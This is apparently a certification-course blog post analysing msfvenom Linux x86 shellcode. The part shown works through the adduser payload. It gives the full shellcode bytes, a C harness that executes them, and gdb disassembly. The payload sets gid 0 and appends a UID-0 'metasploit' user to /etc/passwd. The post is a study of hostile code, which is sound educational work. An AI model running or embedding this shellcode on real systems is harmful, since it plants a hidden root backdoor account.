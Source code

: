 ```yaml
---
layout: single
title: Shellcode Samples Analysis
date: 2019-10-07
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
If we search on internet we will find a lot of ready to use shellcodes of various types, somes are for simple command execution, others adds "secret users" in victim machine, others are bind and reverse shell like the shellcodes wrote in this blog. The question is, shall we trust shellcodes found in internet? Following the general rule "Trust no one" the answer should be a big No, but sometime, for example when we have limited time, we prefer or we are forced to use others shellcode.<br>
In this cases what we suggest is to analyze the downloaed shellcode in sandbox machine before use it, to ensure that it will do what it declare.<br>
For this post we want to show how to analyze 4 samples of shellcodes took from msfvenom payload tool.
We can use the msfvenom tool to list payloads that could be produced:
```bash
root@slae32-lab:# msfvenom -l payloads |grep linux/x86
```
![](/assets/images/SLAE32/assignment_5/analysis_0.png)<br>
We have already build (and analyzed) the bind and reverse shellcode types so we choosed this 4 shellcode samples:
- linux/x86/adduser "Create a new user with UID 0"
- linux/x86/chmod "Runs chmod on specified file with specified mode"
- linux/x86/exec "Execute an arbitrary command"
- linux/x86/read_file "Read up to 4096 bytes from the local file system and write it back out to the specified file descriptor" 
So let's start our analysis

## Adduser
First thing, we must create the payload with msfvenom
```bash
root@slae32-lab:# msfvenom -p linux/x86/adduser -f C -a x86 --platform linux
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```
Now we need to analyze it with ndisasm, using the command 
```bash
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```
We can see the assembly code 
![](/assets/images/SLAE32/assignment_5/analysis_1.png)<br>
and we can see also the syscalls involved in this payload.
We have to remember that this shellcode has the scope of insert a user with uid 0 in the system so presumibly it write a new well crafted row in /etc/passwd file.
Now let's look at the assembly and try to indentify the syscalls and other components of the shellcode.<br>
![](/assets/images/SLAE32/assignment_5/analysis_2.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid.png)<br>
![](/assets/images/SLAE32/assignment_5/open.png)<br>
![](/assets/images/SLAE32/assignment_5/write.png)<br>
![](/assets/images/SLAE32/assignment_5/exit.png)<br>

So we can resume the syscalls involved in this shellcode:
1. setgid
2. open
3. write
4. exit

We have to note two things here. The first is the 3 push dword of the ```open``` syscall that is most certainly the file to open, let's check it
![](/assets/images/SLAE32/assignment_5/analysis_3.png)<br>

Copy the value 
```
6873737764
682F2F7061
682F657463 
```
and paste it in a converter
![](/assets/images/SLAE32/assignment_5/analysis_4.png)<br>
```dwssap//cte/```
Well done, we have find the file path opened by ```open``` syscall, it's /etc/passwd, obiovusly in reverse order beacause we are in little endian.
The second is the chunk of code just after the ```call dword 0x53```, it seems only text instead of assembly instruction and as we will see, this code would never be executed.
Now we can put the shellcode inside our executing C code, compile it and debug it with gdb
```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51
\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63
\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65
\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73
\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a
\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58
\xcd\x80\x6a\x01\x58\xcd\x80";

void main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
The first syscall as said is the ```setgid``` that want the 0x46 in the EAX register and the gid of the caller as argument, in EBX regsister. In this case the payload set the gid to 0 (root).
![](/assets/images/SLAE32/assignment_5/setgid_0.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid_1.png)<br>
```stepi``` to the ```int 0x80``` call
![](/assets/images/SLAE32/assignment_5/setgid_2.png)<br>
and check the first 4 register with a hook-stop procedure

```gdb
Dump of assembler code for function code:
=> 0x0804a040 <+0>:	xor    ecx,ecx
   0x0804a042 <+2>:	mov    ebx,ecx
   0x0804a044 <+4>:	push   0x46
   0x0804a046 <+6>:	pop    eax
   0x0804a047 <+7>:	int    0x80
   0x0804a049 <+9>:	push   0x5
   0x0804a04b <+11>:	pop    eax
   0x0804a04c <+12>:	xor    ecx,ecx
   0x0804a04e <+14>:	push   ecx
   0x0804a04f <+15>:	push   0x64777373
   0x0804a054 <+20>:	push   0x61702f2f
   0x0804a059 <+25>:	push   0x6374652f
   0x0804a05e <+30>:	mov    ebx,esp
   0x0804a060 <+32>:	inc    ecx
   0x0804a061 <+33>:	mov    ch,0x4
   0x0804a063 <+35>:	int    0x80
   0x0804a065 <+37>:	xchg   ebx,eax
   0x0804a066 <+38>:	call   0x804a093 <code+83>
   0x0804a06b <+43>:	ins    DWORD PTR es:[edi],dx
   0x0804a06c <+44>:	gs je  0x804a0d0
   0x0804a06f <+47>:	jae    0x804a0e1
   0x0804a071 <+49>:	ins    BYTE PTR es:[edi],dx
   0x0804a072 <+50>:	outs   dx,DWORD PTR ds:[esi]
   0x0804a073 <+51>:	imul   esi,DWORD PTR [edx+edi*1+0x41],0x49642f7a
   0x0804a07b <+59>:	jae    0x804a0e7
   0x0804a07d <+61>:	xor    al,0x70
   0x0804a07f <+63>:	xor    al,0x49
   0x0804a081 <+65>:	push   edx
   0x0804a082 <+66>:	arpl   WORD PTR [edx],di
   0x0804a084 <+68>:	xor    BYTE PTR [edx],bh
   0x0804a086 <+70>:	xor    BYTE PTR [edx],bh
   0x0804a088 <+72>:	cmp    ch,BYTE PTR [edi]
   0x0804a08a <+74>:	cmp    ch,BYTE PTR [edi]
   0x0804a08c <+76>:	bound  ebp,QWORD PTR [ecx+0x6e]
   0x0804a08f <+79>:	das    
   0x0804a090 <+80>:	jae    0x804a0fa
   0x0804a092 <+82>:	or     bl,BYTE PTR [ecx-0x75]
   0x0804a095 <+85>:	push   ecx
   0x0804a096 <+86>:	cld    
   0x0804a097 <+87>:	push   0x4
   0x0804a099 <+89>:	pop    eax
   0x0804a09a <+90>:	int    0x80
   0x0804a09c <+92>:	push   0x1
   0x0804a09e <+94>:	pop    eax
   0x0804a09f <+95>:	int    0x80
   0x0804a0a1 <+97>:	add    BYTE PTR [eax],al

Type commands for definition of "hook-stop".
End with a line saying just "end".
>disassemble 
>print/x $eax
>print/x $ebx
>print/x $ecx
>print/x $edx
>end
```
![](/assets/images/SLAE32/assignment_5/setgid_3.png)<br>




